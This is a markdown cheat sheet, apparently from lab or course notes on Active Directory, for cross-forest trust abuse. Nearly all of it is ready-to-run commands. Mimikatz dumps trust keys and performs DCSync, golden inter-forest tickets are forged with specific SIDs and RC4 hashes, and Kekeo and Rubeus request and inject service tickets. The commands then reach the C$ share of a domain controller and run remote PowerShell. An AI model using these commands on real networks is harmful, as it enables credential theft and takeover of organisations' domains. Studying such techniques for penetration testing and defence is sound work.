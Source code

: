 # Cross Domain Attacks [ Forest Root - SID Abuse ]
## Methodology/Steps
> 1. Dump the trust keys of the inter-forest trusts
> 2. Note the SID of the current Domain, SID of the target Domain and the rc4_hmac_nt(Trust Key) of the target Domain.
>    (example : *ecorp$*)
> 3. We can forge a inter-forest TGT with the proper *target* and *rc4* parameters
> 4. Now request a TGS using **asktgs.exe**
> 5. Now Inject the TGS in the memory
> 6. Now we can access all the shared files admin DC
---

## Invoke-Mimikatz
### 1. We require the trust key of inter-forest trust
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

### 2. Forge the inter-forest TGT
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787- 2521448726-163245708 /sids:S-1-5-21-2781415573- 3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

### 3. Request a TGS
> Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket with Kekeo
```powershell
# keko
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
# Or using older version of Kekeo
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```

### 4. Inject and use the TGS
> Use the TGS to access the targeted service (may need to use it twice)
```powershell
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi 
# Or
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi
ls \\techcorp-dc.techcorp.local\c$
```

## Rubeus
### 1. Create ticket and add it into the memory using asktgs
```powershell
# Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt

C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

# can access the shares now
ls \\techcorp-dc.techcorp.local\c$
ls \\euvendor-dc.euvendor.local\c$
```

## PowerShell

### 1. Access the euvendor-net machine using PSRemoting
```powershell
# cmdlet
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendornet.euvendor.local -Authentication NegotiateWithImplicitCredential
```

---

# Extras
### To use the DCSync feature for getting krbtg hash execute the below command with DC privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:garrison.castle.local /all /cvs"'
```

### Get the ForeignSecurityPrincipal
```powershell
#These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

#With the by default SIDs, we find S-1-5-21-493355955-4215530352-779396340-1104
#We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```
